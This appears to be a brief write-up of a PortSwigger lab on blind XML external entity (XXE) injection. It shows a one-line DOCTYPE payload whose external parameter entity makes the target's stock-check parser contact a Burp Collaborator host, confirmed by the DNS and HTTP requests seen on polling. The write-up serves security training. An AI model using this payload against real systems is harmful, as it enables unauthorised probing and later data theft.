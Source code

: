 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/e226bf9c-59cc-4dfd-a23b-9b42d075a5e1)

### Solution

We are using the check stock feature

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/16083dc4-0224-47b2-9ad4-b87b8fbf9452)

Insert the following external entity definition in between the XML declaration and the stockCheck element. 

`<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>`

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/099cc339-5f94-4644-b5b0-55f3b2e6435d)

when we click poll now we can see dns and http request generated

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/860827d8-d8b2-4f61-8510-97b37963a7f9)

lab solved succesfully

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/48f1bbd7-5832-4e21-81a9-81a4cf408ff6)
